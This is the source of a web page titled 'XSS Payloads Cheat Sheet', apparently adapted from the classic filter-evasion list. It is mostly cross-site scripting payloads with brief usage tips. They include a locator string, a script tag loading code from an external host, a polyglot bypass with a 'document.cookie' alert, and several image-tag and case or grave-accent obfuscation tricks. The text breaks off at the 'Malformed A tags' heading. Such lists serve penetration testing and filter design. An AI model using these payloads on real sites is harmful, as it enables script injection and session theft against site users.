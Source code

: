 ```yaml
---
ID: 37
post_title: XSS Payloads Cheat Sheet
post_name: sample-page
author: Robbie
post_date: 2017-02-07 14:40:47
layout: page
link: https://xsses.rocks/sample-page/
published: true
tags: [ ]
categories: [ ]
---
```

<h2><span id="XSS_Locator_.28short.29" class="mw-headline">XSS Locator (short)</span></h2>
If you don't have much space and know there is no vulnerable JavaScript on the page, this string is a nice compact XSS injection check. View source after injecting it and look for &lt;XSS verses &amp;lt;XSS to see if it is vulnerable:
<pre>'';!--"&lt;XSS&gt;=&amp;{()}
</pre>
<h2><span id="No_Filter_Evasion" class="mw-headline">No Filter Evasion</span></h2>
This is a normal XSS JavaScript injection, and most likely to get caught but I suggest trying it first (the quotes are not required in any modern browser so they are omitted here):
<pre>&lt;SCRIPT SRC=http://xss.rocks/xss.js&gt;&lt;/SCRIPT&gt;
</pre>
<h2><span id="Filter_bypass_based_polyglot" class="mw-headline">Filter bypass based polyglot</span></h2>
<pre>'"&gt;&gt;&lt;marquee&gt;&lt;img src=x onerror=confirm(1)&gt;&lt;/marquee&gt;"&gt;&lt;/plaintext\&gt;&lt;/|\&gt;&lt;plaintext/onmouseover=prompt(1)&gt;
&lt;script&gt;prompt(1)&lt;/script&gt;@gmail.com&lt;isindex formaction=javascript:alert(/XSS/) type=submit&gt;'--&gt;"&gt;&lt;/script&gt;
&lt;script&gt;alert(document.cookie)&lt;/script&gt;"&gt;
&lt;img/id="confirm&amp;lpar;1)"/alt="/"src="/"onerror=eval(id)&gt;'"&gt;
&lt;img src="http://www.shellypalmer.com/wp-content/images/2015/07/hacked-compressor.jpg"&gt;</pre>
<h2><span id="Image_XSS_using_the_JavaScript_directive" class="mw-headline">Image XSS using the JavaScript directive</span></h2>
Image XSS using the JavaScript directive (IE7.0 doesn't support the JavaScript directive in context of an image, but it does in other contexts, but the following show the principles that would work in other tags as well:
<pre>&lt;IMG SRC="javascript:alert('XSS');"&gt;
</pre>
<h2><span id="No_quotes_and_no_semicolon" class="mw-headline">No quotes and no semicolon</span></h2>
<pre>&lt;IMG SRC=javascript:alert('XSS')&gt;
</pre>
<h2><span id="Case_insensitive_XSS_attack_vector" class="mw-headline">Case insensitive XSS attack vector</span></h2>
<pre>&lt;IMG SRC=JaVaScRiPt:alert('XSS')&gt;
</pre>
<h2><span id="HTML_entities" class="mw-headline">HTML entities</span></h2>
The semicolons are required for this to work:
<pre>&lt;IMG SRC=javascript:alert("XSS")&gt;
</pre>
<h2><span id="Grave_accent_obfuscation" class="mw-headline">Grave accent obfuscation</span></h2>
If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string - this is also useful because lots of cross site scripting filters don't know about grave accents:
<pre>&lt;IMG SRC=`javascript:alert("RSnake says, 'XSS'")`&gt;
</pre>
<h2><span id="Malformed_A_tags" class="mw-headline">Malformed A tags</span></h2>
Skip the HREF attribute and get to the meat of the XXS... Submitted by David Cross ~ Verified on Chrome
